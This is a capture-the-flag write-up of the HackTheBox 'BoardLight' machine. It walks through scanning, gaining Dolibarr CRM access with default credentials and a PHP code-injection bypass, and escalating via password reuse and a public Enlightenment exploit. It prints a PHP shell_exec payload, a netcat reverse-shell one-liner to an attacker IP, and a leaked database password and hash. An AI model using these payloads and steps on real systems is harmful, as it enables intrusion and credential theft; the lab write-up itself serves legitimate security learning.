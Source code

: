 # BoardLight

<figure><img src="../../.gitbook/assets/BoardLight (1).png" alt=""><figcaption></figcaption></figure>

## &#x20;Enumeration

```bash
nmap -v -A -O -p- -Pn boardlight.htb -oN nmap
```

```bash
Nmap scan report for boardlight.htb (10.10.11.11)
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/7%OT=22%CT=1%CU=38364%PV=Y%DS=2%DC=T%G=Y%TM=66631
OS:D7C%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=101%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CS
OS:T11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 0.076 days (since Fri Jun  7 14:58:20 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   51.51 ms 10.10.14.1
2   51.85 ms boardlight.htb (10.10.11.11)

NSE: Script Post-scanning.
Initiating NSE at 16:47
Completed NSE at 16:47, 0.00s elapsed
Initiating NSE at 16:47
Completed NSE at 16:47, 0.00s elapsed
Initiating NSE at 16:47
Completed NSE at 16:47, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.35 seconds
           Raw packets sent: 65723 (2.896MB) | Rcvd: 66121 (2.754MB)

```



### Port 80

<figure><img src="../../.gitbook/assets/image (725).png" alt=""><figcaption></figcaption></figure>

It appears to be a simple showcase site, and even a directory scan with `ffuf` returns nothing.

Trying to scan vhosts always with ffuf we get nothing. This is very strange... 🤔

Let's go back to the homepage and see if we can extract additional information such as employees, additional domain names, etc.

In the footer we see that the domain name is not `boardlight.htb` but `board.htb`:

<figure><img src="../../.gitbook/assets/image (727).png" alt=""><figcaption></figcaption></figure>

At this point trying to run a new scan of possible vhosts immediately ffuf returns something super interesting:

<figure><img src="../../.gitbook/assets/image (726).png" alt=""><figcaption></figcaption></figure>

Adding `crm.board.htb` to /etc/hosts and visiting the URL we will reach a login page :thumbsup:

<figure><img src="../../.gitbook/assets/image (728).png" alt=""><figcaption></figcaption></figure>

This is the login page of Dolibarr ERP/CRM which is an Open source modular software that suits small and medium-sized enterprises (SMEs), foundations and freelancers.

## Foothold

Trying `admin:admin` credentials we can enter in a sort of restricted area of CRM:

<figure><img src="../../.gitbook/assets/image (729).png" alt=""><figcaption></figcaption></figure>

But is still possible to create website and under each website a test page. In fact, if we create a new website and create a blank page with some HTML code this will be visible from the browser:

<figure><img src="../../.gitbook/assets/image (731).png" alt=""><figcaption></figcaption></figure>

By clicking on the preview symbol to the right of the page :binocul or by reaching the correctly set URL, the created page can be viewed:

<figure><img src="../../.gitbook/assets/image (732).png" alt=""><figcaption></figcaption></figure>

The juiciest and most interesting thing of all though is that it is possible to create pages with dynamic content in other words with PHP code that could get us a reverse shell.&#x20;

But if we try to enter some PHP code using the classic tag we obtain the following error:

<figure><img src="../../.gitbook/assets/image (733).png" alt=""><figcaption></figcaption></figure>

The good news, however, is that there is a vulnerability that allow us to easily bypass this restriction and the reference is this one:

{% embed url="https://www.swascan.com/it/security-advisory-dolibarr-17-0-0/" %}

<figure><img src="../../.gitbook/assets/image (730).png" alt=""><figcaption></figcaption></figure>

Easy Peasy! :wave:

<figure><img src="../../.gitbook/assets/image (734).png" alt=""><figcaption></figcaption></figure>

This is the payload used to exec some shell commands on backend:

```php
<?PHP $output = shell_exec('which python');echo "<pre>$output</pre>";?> 

```

List files in the current working directory:&#x20;

<figure><img src="../../.gitbook/assets/image (735).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (736).png" alt=""><figcaption></figcaption></figure>

We can list the users on the machine and we will find larissa:

<figure><img src="../../.gitbook/assets/image (737).png" alt=""><figcaption></figcaption></figure>

Verify if some useful binaries exists:

<figure><img src="../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (739).png" alt=""><figcaption></figcaption></figure>

after several attempts we finally find the reverse shell working and get a session in pwncat:

```php
<?PHP system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.101 9999 >/tmp/f");?>
```

Googling ([https://wiki.dolibarr.org/index.php?title=Configuration\_file](https://wiki.dolibarr.org/index.php?title=Configuration_file)) we find that Dollibarr's configuration file is in `conf/conf.php` as shown in the figure:

<figure><img src="../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

And the first credential set appear magically :magic\_wand::

<figure><img src="../../.gitbook/assets/image (741).png" alt=""><figcaption></figcaption></figure>

`dolibarrowner` <--> `serverfun2$2023!!`

## Privilege Escalation (user)

The first idea was to enumerate further by checking for other users within the MySQL database:

<figure><img src="../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>

With `show tables;` we can list the tables present in this database:

<figure><img src="../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

`llx_user` is the most interesting table but difficult to read using the reverse shell:

<figure><img src="../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

If we copy this output to a mysql editor formatter like this one we can easily read the password hashes and users:

{% embed url="https://www.dpriver.com/pp/sqlformat.htm" %}

<figure><img src="../../.gitbook/assets/image (745).png" alt=""><figcaption></figcaption></figure>

```
dolibarr $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm
```

It's a Blowfish hash type:

<figure><img src="../../.gitbook/assets/image (746).png" alt=""><figcaption></figcaption></figure>

Try to crack it using Hashcat is a fail :no\_entry:

Instead if we simply try to SSH with this password as `larissa` user  enumerated before we obtain the user flag:

<figure><img src="../../.gitbook/assets/image (747).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation (root)

Download `linpeas.sh` under `/tmp` and start it:

<figure><img src="../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>

After trying several different avenues (from port 33060 open only in localhost to the different CVEs listed but not compatible with the Ubuntu Focal 21.04 version of the machine) and many hours of reviewing linpeas output came <mark style="color:yellow;">**enlightenment**</mark>! :bulb:

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main" %}

{% hint style="info" %}
Enlightenment is a Window Manager, Compositor and Minimal Desktop for Linux (the primary platform), BSD and any other compatible UNIX system.
{% endhint %}

Using the exploit found on GitHub we can obtain the root flag :tada:

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>
